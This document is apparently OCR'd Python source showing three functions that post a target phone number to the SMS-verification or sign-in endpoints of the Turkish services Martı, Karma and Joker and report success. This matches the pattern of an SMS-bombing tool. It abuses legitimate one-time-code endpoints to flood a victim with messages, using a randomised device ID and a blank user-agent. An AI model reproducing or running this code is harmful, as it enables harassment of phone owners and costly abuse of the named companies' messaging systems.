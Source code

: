 def marti(number):
    try:
        url = "https://customer.martiscooter.com/v13/scooter/dispatch/customer/signin"
        payload = {
            "mobilePhone" : f"{number}",
            "mobilePhoneCountryCode" : "90"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["isSuccess"]
        if r1 == True:
            return True, "Martı"
        else:
            return False, "Martı"
    except:
        return False, "Martı"

def karma(number):
    try:
        url = "https://api.gokarma.app/v1/auth/send-sms"
        payload = {
            "phoneNumber" : f"90{number}",
            "type" : "REGISTER",
            "deviceId" : f"{''.join(random.choices(string.ascii_lowercase + string.digits, k=16))}",
            "language" : "tr-TR"
        }
        r = requests.post(url=url, json=payload, timeout=5)

        if r.status_code == 201:
            return True, "Karma"
        else:
            return False, "Karma"
    except:
        return False, "Karma"

def joker(number):
    try:
        url = "https://www.joker.com.tr:443/kullanici/ajax/check-sms"
        payload = {
            "phone" : f"{number}"
        }
        headers = {
            "user-agent" : ""
        }
        r = requests.post(url=url, headers=headers, data=payload, timeout=5)
        r1 = json.loads(r.text)["success"]

        if r1 == True:
            return True, "Joker"
        else:
            return False, "Joker"
    except:
        return False, "Joker"
